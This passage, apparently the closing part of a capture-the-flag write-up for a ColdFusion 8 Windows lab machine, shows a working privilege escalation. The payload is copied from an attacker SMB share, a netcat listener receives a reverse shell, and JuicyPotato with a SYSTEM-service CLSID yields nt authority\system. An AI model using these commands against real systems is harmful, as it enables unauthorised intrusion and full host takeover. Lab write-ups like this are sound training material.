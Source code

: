 ```
C:\ColdFusion8\runtime\bin>copy \\10.10.14.36\share\shell.exe 
copy \\10.10.14.36\share\shell.exe
        1 file(s) copied.
```

Now that `shell.exe` and `JuicyPotato.exe` are within this directory, I can go ahead and setup a `Netcat` listener on port 1337 and run the following command on the Windows host to gain a `SYSTEM` shell.

```
root@kali-[~]nc -lvnp 1337
```

```
JuicyPotato.exe -t * -l 1337 -p C:\ColdFusion8\runtime\bin\shell.exe -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

```
root@kali-[~]nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.11] 51379
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

The `-c` asks for a CLSID or “class identifier”. CLSIDs are `.NET classes` and the CLSIDs we are going to use refer to services that are running as `SYSTEM`. We essentially are impersonating a service by supplying a `CLSID` of a service that is running with higher privileges than us, that being `SYSTEM`. The `{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}` is a CLSID of a service that is running as `SYSTEM` so we use that `CLSID` to gain a `SYSTEM` shell. At the end of the day, this box was pretty interesting. Getting initial foothold was the most interesting part, but having the amount of lag on ColdFusion was not all that fun to deal with. Either way, was a great box!
